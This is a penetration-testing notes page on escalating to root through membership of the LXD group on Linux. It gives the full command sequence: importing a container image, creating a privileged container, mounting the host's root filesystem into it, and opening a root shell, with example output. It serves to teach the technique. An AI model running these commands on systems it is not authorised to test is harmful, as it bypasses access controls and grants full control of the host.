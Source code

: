 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# LXD

## Containers

Containerisation operates at the OS level - in contrast to virtual machines, which operate at the hardware level - and thus share an OS but isolate application processes from the rest of the system.

## Linux Containers

Linux Containers (LXC) is an operating system-level virtualisation technique that allows multiple Linux systems to run in isolation of one-another on a single host by allowing them to manage their own processes but sharing the host system kernel.

### Linux Daemon

Linux Daemon (LXD) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group.

{% code title="Command" %}
```bash
id
```
{% endcode %}

{% code title="Example Output" %}
```bash
uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
{% endcode %}

There are several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container.

Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use. The focus on security would complicate the whole initiation, make it more difficult and thus slow it down considerably. If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to import this container as an image.

{% code title="Command" %}
```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
```
{% endcode %}

{% code title="Command" %}
```bash
lxc image list
```
{% endcode %}

{% code title="Example Output" %}
```shell-session
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntutemp                          | 623c9f0bde47 | no     | Ubuntu bionic amd64 (20221024_11:49)    | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```
{% endcode %}

After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

{% code title="Command" %}
```bash
lxc init ubuntutemp privesc -c security.privileged=true
```
{% endcode %}

We can then mount the entire host file system - using `source=/` - at the location specified using `path=/mnt/root`.

{% code title="Command" %}
```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
{% endcode %}

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

{% code title="Command" %}
```bash
lxc start privesc
```
{% endcode %}

{% code title="Command" %}
```bash
lxc exec privesc /bin/bash
```
{% endcode %}

```shell-session
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```
